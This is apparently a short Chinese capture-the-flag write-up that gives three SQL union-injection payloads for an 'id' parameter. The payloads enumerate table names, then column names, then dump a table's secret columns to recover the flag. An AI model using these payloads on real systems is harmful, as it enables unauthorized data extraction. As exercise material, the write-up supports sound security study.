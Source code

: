 > union注入获取表名

```
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3%23
```



> union注入获取字段名

```
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x此处为十六进制表名),3%23
```



> union注入获取表数据

```
?id=-1' union select 1,(select group_concat(id,sessid,secret_HUWX,tryy) from 表名),3%23
```



> flag在第三个字段。接下来获取到的flag填到输入框就好了。





